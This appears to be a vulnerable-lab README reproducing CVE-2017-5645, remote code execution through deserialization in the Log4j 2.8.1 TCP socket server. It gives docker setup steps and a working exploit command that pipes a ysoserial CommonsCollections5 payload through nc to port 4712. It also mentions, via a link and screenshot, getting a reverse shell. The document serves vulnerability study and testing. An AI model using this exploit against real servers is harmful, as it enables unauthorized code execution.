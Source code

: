 # Apache Log4j TCP Server Deserialization Remote Code Execution (CVE-2017-5645)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j is a logging library for Java that supports starting remote logging servers. A security vulnerability exists in versions 2.x before 2.8.2 of Apache Log4j TCP Server. Attackers can exploit this vulnerability to execute arbitrary code.

References:

- https://issues.apache.org/jira/browse/LOG4J2-1863
- https://github.com/pimps/CVE-2017-5645

## Environment Setup

Execute the following command to start a Log4j 2.8.1 TCP server:

```
docker compose up -d
```

After the environment starts, a TCP server will be opened on port 4712.

Note: Besides using Vulhub's docker image to set up the environment, we can directly start this TCP server from the command line after downloading the log4j jar files: `java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`, without needing to use Vulhub or write code.

## Vulnerability Reproduction

We use ysoserial to generate a payload, then send it directly to the `your-ip:4712` port.

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

Then execute `docker compose exec log4j bash` to enter the container, and you can see that /tmp/success has been successfully created:

![](1.png)

Execute a [reverse shell command](http://www.jackson-t.ca/runtime-exec-payloads.html) to successfully get a shell:

![](2.png)

